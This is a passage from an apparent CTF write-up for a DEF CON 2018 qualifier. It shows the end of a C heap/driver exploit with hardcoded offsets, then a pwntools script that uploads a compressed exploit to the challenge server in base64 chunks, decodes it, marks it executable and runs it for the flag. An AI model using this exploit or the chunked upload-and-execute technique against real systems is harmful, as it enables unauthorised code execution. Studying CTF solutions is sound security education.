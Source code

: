 ```c
  driver_write64(0x0, 0, 0x1317a02-0x8);
  driver_malloc(0x0, 11);
  driver_malloc(0x0, 11);
  driver_malloc(0x1, 11);
  driver_write64(0x1, -202, 0x1130b78);
  driver_write64(0x0, 0, 0x6E65F9);
  driver_malloc(0x0, 0x0);
}
```

Now, it's a bit more work to get this working remotely as there is no internet connection in the VM,
so we need to copy the code remotely. We can gzip the compiled code, and send it base64 encoded in chunks
once we connect. The gzip and base64 encoded file is around 400 kb, so if you get a AWS instance in the same region
as the remote server, you can get it working under the timeout. This is the code for sending the exploit

```python
import sys
from pwn import *

sys.path.append('..')
import proof_of_work

proc = remote('11d9f496.quals2018.oooverflow.io', 31337)
proc.recvline()
challenge = proc.recvline().strip().split()[-1]
n = int(proc.recvline().strip().split()[-1])
proc.recvline()
print('Solving challenge: "{}", n: {}'.format(challenge, n))
solution = proof_of_work.solve_pow(challenge, n)
print('Solution: {} -> {}'.format(solution, proof_of_work.pow_hash(challenge, solution)))
proc.sendline(str(solution))

proc.recvuntil("/ # ")
proc.sendline("touch b")

exploit = open('exploit.gz', 'rb').read()
exploit_b64 = b64e(exploit)
print len(exploit_b64)

for i in range(0, len(exploit_b64), 1000):
    print i
    proc.recvuntil("/ # ")
    command = "echo -ne \"" + exploit_b64[i:i+1000] + "\" >> b"
    proc.sendline(command)

proc.sendline("")
proc.sendline("")
proc.recvuntil("/ # ")
proc.sendline("cat b | base64 -d > a.gz")
proc.recvuntil("/ # ")
proc.sendline("gzip -d a.gz")
proc.recvuntil("/ # ")
proc.sendline("chmod +x ./a")
proc.recvuntil("/ # ")
proc.sendline("./a")

proc.interactive()


# OOO{did you know that the cloud is safe}
```